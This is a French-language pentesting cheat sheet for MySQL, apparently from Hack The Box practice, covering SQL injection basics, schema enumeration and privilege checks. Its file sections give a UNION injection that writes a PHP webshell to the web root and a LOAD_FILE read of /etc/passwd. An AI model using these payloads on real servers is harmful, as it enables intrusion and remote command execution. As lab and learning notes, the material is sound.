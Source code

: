 | | |
| --- | --- |
|# |	commentaire |
| -- | 	commentaire (suivi d'un espace en MySQL)|
|‘abc’|	guillemets simples pour délimiter chaîne de charactères|
|'-- 	|		Fermer la chaîne et commenter la suite|
|' OR 1=1-- |	Retourne tout, 1=1 toujours vrai|
	
# Connexion

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mysql -u rot -h docket.hackthebox.eu -P 3306 -p
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# BD par défaut
| nom | description |
| --- | --- |
| mysql | is the system database that contains tables that store information required by the MySQL server |
| information_schema | provides access to database metadata |
| performance_schema | is a feature for monitoring MySQL Server execution at a low level |
| sys | 			a set of objects that helps DBAs and developers interpret data collected by the Performance Schema|

# Info Système
|        Command                      |                                                                      Description                                                                                         |
| --- | --- |
| ```mysql -u <user> -p<password> -h <IP address>``` | Connect to the MySQL server. There should not be a space between the '-p' flag, and the password. |
| ```select version();``` |  |
| ```select system_user();``` |  |
| ```select user()``` <br>```select current_user()``` <br>```select user from mysql.user``` | Utilisateur actuel |
| ```select super_priv from mysql.user``` | Si possède priv super admin. Retourne (Y/N) |
| ```SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="root'@'localhost'"``` | Tous les priv |

System Schema (sys) et information schema (information_schema) contienent de l'information de gestion. Information schema provient sûrtout de system schema.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mysql> use sys;
mysql> show tables;
select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA;
select TABLE_NAME, TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='NOM_DB'
select column_name, table_name, table_schema from information_schema.columns where table_name='NOM_TABLE'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Commandes utiles

|                                        Command                      |                                                                      Description                                                                                         |
| --- | --- |
| ```show databases;```  | Show all databases. |
| ```use <database>;```  | Select one of the existing databases. |
| ```show tables;```  | Show all available tables in the selected database. |
| ```show columns from <table>;``` | Show all columns in the selected database. |
| ```select * from <table>;```  | Show everything in the desired table. |
| ```select * from <table> where <column> = "<string>";```  | Search for needed string in the desired table. |
| ```Describe <table>;``` | liste la structure d'une table |
| ```Select * from [nom_BD].[nom_table]``` | Lire une autre base de données (pratique pour union attaque) |

# Outils
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
mysql -u root -p -h 192.168.50.16 -P 3306
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Écriture de fichier
utilisateur de la DB doit avoir privilège **FILE**
variable MySQL global **secure_file_priv** pas activé ou valeur de chemin. Si NULL, aucune écriture possible.	
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SHOW VARIABLES LIKE 'secure_file_priv';
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Par défaut:
* MariaDB: 	aucune restriction
* MySQL: 	 /var/lib/mysql-files
L'usager doit avoir accès en écriture où l'on écrit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-- webshell
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "C:/xampp/htdocs/webshell.php"
-- avec union
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "C:xampp\htdocs\webshell.php" -- //
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Lecture de fichiers
Pas actif par défaut
utilisateur de la DB doit avoir privilège FILE

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ sql
select LOAD_FILE("/etc/passwd");
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Fichier de config
Information intéressante comme nom et mot de passe
/etc/mysql/mysql.conf.d/mysqld.cnf